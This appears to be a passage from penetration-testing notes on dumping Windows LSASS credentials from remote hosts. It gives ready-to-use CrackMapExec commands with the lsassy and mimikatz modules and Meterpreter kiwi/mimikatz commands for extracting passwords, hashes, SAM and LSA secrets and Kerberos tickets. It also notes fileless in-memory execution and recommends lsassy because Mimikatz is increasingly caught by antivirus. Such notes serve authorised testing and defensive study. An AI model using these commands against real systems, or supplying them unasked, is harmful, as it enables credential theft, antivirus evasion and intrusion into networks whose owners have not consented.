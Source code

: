 ###### CrackMapExec

The Python `CrackMapExec` tool offers two modules to dump and extract
credentials from the `LSASS` process of remote host(s):

  - `mimikatz`, which uses the `Invoke-Mimikatz.ps1` `PowerShell` script.
    `CrackMapExec` will temporally host the script using a Python web server
    and instruct the remote host(s) to download and inject in memory the script
    in order to execute `Invoke-Mimikatz -DumpCreds` with out creating a file
    on disk.
  - `lsassy` which leverages the `lsassy` Python library.

Note that as `Invoke-Mimikatz.ps1` is being more and more detected by antivirus
solutions, it is recommended to make use of the `lsassy` module.

Standalone binaries of `CrackMapExec` for Linux / Windows are available on the
following [`OffensivePythonPipeline` GitHub
repository](https://github.com/Qazeer/OffensivePythonPipeline).

```bash
# It is recommended to use the released crackmapexec binaries from GitHub (a GitHub account being required to download the files): https://github.com/byt3bl33d3r/CrackMapExec/actions

# lsassy module
crackmapexec smb <TARGETS> -M lsassy (-d <DOMAIN> | --local-auth) -u <USERNAME> (-p <PASSWORD | PASSWORDS_FILE> | -H <HASH>)

# Mimikatz module
crackmapexec smb <TARGETS> -M mimikatz (-d <DOMAIN> | --local-auth) -u <USERNAME> (-p <PASSWORD | PASSWORDS_FILE> | -H <HASH>)
```

###### Metasploit / meterpreter

The `meterpreter` extensions `mimikatz` and `kiwi` can be used to dump
credentials through a `meterpreter` session without the need to write any file
to the compromised host's disks. The `kiwi` extension replace the previous
`mimikatz` extension with a much simpler interface command system and works on
`Windows XP SP3` and `Windows 2003 SP1` all the way up to `Windows 10` and
`Windows 2019`.

On `x64` host, make sure that the `meterpreter` session is running as a 64 bits
process (using `sysinfo`), otherwise the `meterpreter` will attempt to load a
32 bits version of `Mimikatz` into memory, which will cause most features to be
non-functional.

```
meterpreter> load kiwi
meterpreter> creds_all
meterpreter> lsa_dump_sam
meterpreter> lsa_dump_secrets
meterpreter> creds_kerberos / creds_msv / creds_ssp / creds_tspkg / creds_wdigest

# Older version
meterpreter> load mimikatz

meterpreter> mimikatz_command -f samdump::hashes
meterpreter> mimikatz_command -f sekurlsa::logonpasswords
meterpreter> kerberos / livessp / msv / ssp / tspkg / wdigest
```
